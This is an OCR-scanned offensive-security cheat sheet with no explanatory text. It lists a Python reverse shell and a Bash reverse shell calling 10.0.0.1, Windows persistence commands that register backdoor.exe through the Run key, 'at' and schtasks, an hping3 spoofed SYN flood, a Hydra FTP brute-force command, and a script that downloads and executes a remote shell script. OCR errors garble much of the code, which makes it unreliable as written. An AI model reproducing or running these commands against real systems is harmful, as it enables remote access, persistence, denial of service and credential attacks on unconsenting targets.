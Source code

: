 # Python Reverse Shell

```python
python -c 'import socket,subprocess,os; s=socket.socket(socket..;;F_INET, socket.SOCK_STREAL1); s.connect( ("10.0.0.1",1234)); os.dup2 (s.fileno() ,0); os.dup2(s.fileno(l,1); os.dup2(s.file:oo(),2);
p~subprocess.call( 1"/bin/sh","-i"] I;'
```

# Bash Reverse Shell

```bash
bash -i & /dev/tcp/10.0.0.1/8080 0 &1
```

# Windows Persistence

```
1. REG add HKEY CURRENT USER\Software\l1icrosoft\W indows\CurrentV ersion\Run /v firewall 7t REG SZ /d "c:\windows\system32\backdoor.exe" /f
2. at 19:00 /every:t1,T,W,Th,F cmd /c start "%USERPROFILE%\backdoor.exe"
3. SCHTASKS /Create /RU "SYSTEt1" /SC l1INUTE /t10 45 /TN FIREWALL /TR
"%USERPROFILE%\backdoor.exe" /ED 12/12/2012
```

# HPING3 DoS

```bash
hping3 targetiP --flood --frag --spoof ip --destport # --syn
```

# Hydra Online Brute Force

```bash
hydra -1 ftp -P words -v targetiP ftp
```

# Download HTTP File and Execute

```python
#!/usr/bin/python import urllib2, os
urls = [11 1.1.1.1'',"2.2.2.2"] port = 11 80"
payload = "cb.sh"
for url in urls:
u = "http://%s:%s/%s" % (url, port, payload) try:
r = urllib2.urlopen(u)
wfile = open{"/tmp/cb.sh", "wb") wfile.write(r.read()) wfile.close ()
break
except: continue
if os.path.exists("/tmp/cb.sh"): os.system("chmod -oo /tmp/cb.sh") os. system ("/tmp/cb. sh")
```
